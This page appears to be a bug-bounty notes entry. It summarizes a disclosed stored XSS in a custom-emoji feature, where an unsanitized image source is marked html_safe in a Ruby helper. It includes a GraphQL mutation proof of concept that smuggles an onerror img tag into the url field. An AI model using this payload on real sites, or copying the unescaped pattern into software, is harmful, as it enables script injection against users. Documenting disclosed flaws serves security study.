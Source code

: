 # 19

{% embed url="https://hackerone.com/reports/1198517" caption="A Stored XSS with a feature of custom emoji" %}

```ruby
   def emoji_image_tag(name, src)
      "<img class='emoji' title=':#{name}:' alt=':#{name}:' src='#{src}' height='20' width='20' align='absmiddle' />"
    end

    ...

    def custom_emoji_tag(name, image_source)
      data = {
        name: name
      }

      ActionController::Base.helpers.content_tag('gl-emoji', title: name, data: data) do
        emoji_image_tag(name, image_source).html_safe
      end
    end
```

The argument image\_source not be sanitized in line-13, and make a Stored XSS

PoC\(Create a custom emoji use the graphql api\):

```text
mutation {
  createCustomEmoji(input: 
    {
      groupPath: "xss_target", 
      name:"xssreplace",
      url:"http://aaa#'><img onerror=alert(location) src=.>"
    }) {
    customEmoji {
      id
      name
      url
    }
  }
}
```



## 



{% embed url="https://hackerone.com/reports/970878" %}







